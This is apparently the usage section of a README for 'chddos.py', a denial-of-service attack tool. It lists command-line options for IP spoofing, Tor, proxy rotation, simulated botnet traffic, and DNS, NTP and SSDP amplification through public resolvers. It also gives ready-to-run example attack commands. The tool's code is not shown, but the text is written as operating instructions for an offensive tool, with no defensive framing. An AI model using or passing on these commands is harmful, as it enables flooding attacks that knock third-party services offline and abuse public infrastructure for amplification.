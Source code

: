 ```bash
python3 chddos.py -t <target> -p <ports> [options]
```

### Command-Line Arguments
| Argument | Description | Example |
|----------|-------------|---------|
| `-t, --target` | Target IP/domain or file containing targets (required) | `-t example.com` or `-t targets.txt` |
| `-p, --port` | Target ports (comma-separated, required) | `-p 80,443` |
| `--proxy-file` | File with proxy list (IP:Port) | `--proxy-file proxies.txt` |
| `--proxy-type` | Proxy type: `http`, `socks4`, `socks5` (default: `http`) | `--proxy-type socks5` |
| `-r, --agent-file` | File with custom User-Agent list | `--agent-file agents.txt` |
| `--add-agent` | Additional User-Agents (comma-separated) | `--add-agent "Mozilla/5.0,Opera/9.80"` |
| `--threads` | Number of threads (default: 100, max: 1000) | `--threads 200` |
| `--rpc` | Requests per connection (default: 10, max: 100) | `--rpc 20` |
| `--duration` | Attack duration in seconds (default: 300) | `--duration 600` |
| `--spoof` | Enable IP spoofing (requires root) | `--spoof` |
| `--tor` | Use Tor network (requires root) | `--tor` |
| `--botnet` | Simulate botnet with randomized source IPs (requires root) | `--botnet` |
| `--dns-resolvers` | DNS resolvers for amplification (default: `8.8.8.8:53,1.1.1.1:53`) | `--dns-resolvers "8.8.8.8:53,1.1.1.1:53"` |
| `--ntp-resolvers` | NTP resolvers for amplification (default: `pool.ntp.org:123`) | `--ntp-resolvers "pool.ntp.org:123"` |
| `--ssdp-resolvers` | SSDP resolvers for amplification (default: `239.255.255.250:1900`) | `--ssdp-resolvers "239.255.255.250:1900"` |

### Example Commands
1. **Basic HTTP Attack**:
   ```bash
   python3 chddos.py -t example.com -p 80,443
   ```
   - Targets `example.com` on ports 80 and 443 with HTTP-based attacks.
2. **Botnet Simulation with Proxies**:
   ```bash
   sudo python3 chddos.py -t target.txt -p 80,443 --botnet --proxy-file proxies.txt --proxy-type socks5
   ```
   - Simulates a botnet attack with randomized IPs and SOCKS5 proxies.
3. **DNS Amplification**:
   ```bash
   sudo python3 chddos.py -t target.txt -p 53 --dns-resolvers "8.8.8.8:53,1.1.1.1:53"
   ```
   - Performs DNS amplification attack on port 53.
4. **SSDP Amplification**:
   ```bash
   sudo python3 chddos.py -t target.txt -p 1900 --ssdp-resolvers "239.255.255.250:1900"
   ```
   - Targets IoT devices with SSDP amplification.
5. **Custom User-Agent Attack**:
   ```bash
   python3 chddos.py -t example.com -p 80 --agent-file agents.txt --add-agent "Mozilla/5.0,Opera/9.80"
   ```
   - Uses custom User-Agent list and additional agents for HTTP attacks.

